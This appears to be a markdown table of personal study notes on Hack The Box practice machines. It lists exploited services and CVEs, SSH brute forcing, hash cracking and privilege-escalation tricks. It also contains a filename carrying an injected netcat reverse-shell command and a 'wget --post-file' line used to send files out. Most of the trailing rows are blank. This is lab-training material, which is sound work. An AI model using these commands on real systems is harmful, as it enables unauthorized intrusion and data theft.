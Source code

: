 | Name       | Rank | Platform | Lessons Learned                                                                                                                                                                               |   |
|------------|------|----------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|---|
| Lame       | Easy | HTB      | vsftpd 2.3.4 vulnerable --> fake banner                                                                                                                                                       |   |
|            |      |          | SMB enumeration:  enum4linux, smbclient problem with protocol  (--option='client min protocol=NT1'.), smbmap                                                                                  |   |
|            |      |          | 1. samba 3.0.20 vulnerable --> Becoming ROOT                                                                                                                                                  |   |
|            |      |          | 1. distccd port 3621: ls -la /usr/share/nmap/scripts/*distcc*/usr/share/nmap/scripts/distcc-cve2004-2687.nse  (NMAP SCRIPT) --> Becoming User2. A) NMAP GTFobins     B) Kernel Exploit 8572.c |   |
|            |      |          |                                                                                                                                                                                               |   |
| Sunday     | Easy | HTB      | finger enumeration port 79                                                                                                                                                                    |   |
|            |      |          | ssh problem with crypto Algorithm (-oKexAlgorithms=diffie-hellman-group1-sha1)                                                                                                                |   |
|            |      |          | Brute force SSH with Hydra                                                                                                                                                                    |   |
|            |      |          | John the ripper crack hash password                                                                                                                                                           |   |
|            |      |          | GTFObins wget –post-file                                                                                                                                                                      |   |
|            |      |          |                                                                                                                                                                                               |   |
| Networked  | Easy | HTB      | Uploading php file: exiftool                                                                                                                                                                  |   |
|            |      |          | crontab, php file scan for files in otdet to remove them and notice guly.                                                                                                                     |   |
|            |      |          | create a file with name as ; nc <ip> port -c bash                                                                                                                                             |   |
|            |      |          | sudo -l changename.sh                                                                                                                                                                         |   |
|            |      |          |                                                                                                                                                                                               |   |
| Beep       | Easy | HTB      | ELASTIX SERVER, VOIP, freePBX, Asterisk                                                                                                                                                       |   |
|            |      |          | SIP PROTOCOL, SIP extension                                                                                                                                                                   |   |
|            |      |          | SIPVICIOUS svwar                                                                                                                                                                              |   |
|            |      |          | FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution 18650.py                                                                                                                               |   |
|            |      |          | send request through Burp Suite in order to ignore Certificate                                                                                                                                |   |
|            |      |          | curl -k problem with ceritificate                                                                                                                                                             |   |
|            |      |          | GTFOBINS nmap --interactive                                                                                                                                                                   |   |
|            |      |          | vtigercrm 5.1.0                                                                                                                                                                               |   |
|            |      |          | Webmin port 10000                                                                                                                                                                             |   |
|            |      |          | shellshock & webmin exploit                                                                                                                                                                   |   |
|            |      |          | SMTP telnet SHELL                                                                                                                                                                             |   |
|            |      |          |                                                                                                                                                                                               |   |
| Nibbles    | Easy | HTB      | Powered by Nibbleblog                                                                                                                                                                         |   |
|            |      |          | sudo -l monitor.sh file                                                                                                                                                                       |   |
|            |      |          | echo reverse shell, append monitor.sh running as root or create a similar file                                                                                                                |   |
|            |      |          | Kernel Exploit OS Vesion 16.04.3.                                                                                                                                                             |   |
|            |      |          |                                                                                                                                                                                               |   |
| Bashed     | Easy | HTB      | phpbash website                                                                                                                                                                               |   |
|            |      |          | run any command as scriptmanager and do everything it can do.                                                                                                                                 |   |
|            |      |          | Using python to get a reverse shell                                                                                                                                                           |   |
|            |      |          | view permissions of scriptmanager                                                                                                                                                             |   |
|            |      |          |                                                                                                                                                                                               |   |
| Shocker    | Easy | HTB      | Exploit shellshock with curl                                                                                                                                                                  |   |
|            |      |          | Exploit shellshock with python script                                                                                                                                                         |   |
|            |      |          | GTFobins Perl                                                                                                                                                                                 |   |
|            |      |          |                                                                                                                                                                                               |   |
| Friendzone | Easy | HTB      | DNS zone transfer                                                                                                                                                                             |   |
|            |      |          | dig axfr                                                                                                                                                                                      |   |
|            |      |          | SMB Enumeration !! Warning /etc/Files                                                                                                                                                         |   |
|            |      |          | LFI Samba Shares                                                                                                                                                                              |   |
|            |      |          | put/get file on SBM Shares                                                                                                                                                                    |   |
|            |      |          | write scripts to memory (/dev/shm)                                                                                                                                                            |   |
|            |      |          | pspy                                                                                                                                                                                          |   |
|            |      |          | Python Library Hijacking                                                                                                                                                                      |   |
|            |      |          |                                                                                                                                                                                               |   |
| Sense      | Easy | HTB      | Pfsense Firewall CVEs  FreeBSD                                                                                                                                                                |   |
|            |      |          | default credential and good dirb enumeration                                                                                                                                                  |   |
|            |      |          | CVE-2014-4688 exploited                                                                                                                                                                       |   |
|            |      |          | Command Injection Manually                                                                                                                                                                    |   |
|            |      |          |                                                                                                                                                                                               |   |
| Valentine  | Easy | HTB      | SSL heartbleed                                                                                                                                                                                |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
|            |      |          |                                                                                                                                                                                               |   |
